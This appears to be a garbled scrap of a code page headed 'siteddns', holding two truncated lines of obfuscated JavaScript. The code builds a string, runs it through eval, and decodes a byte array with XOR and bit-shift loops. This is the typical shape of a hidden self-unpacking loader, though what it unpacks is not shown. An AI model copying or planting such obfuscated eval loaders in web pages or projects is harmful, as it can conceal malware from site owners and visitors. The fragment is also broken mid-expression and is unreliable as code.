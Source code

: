 # siteddns
42)break;hf[jf]=(hf[jf]+hf[jf+1])&0xff;jf++;}while(true);";eval(jf);jf="jf=44;do{hf[jf]=hf[jf]^179;hf[jf]=(((hf[jf]>>1)|((hf[jf]
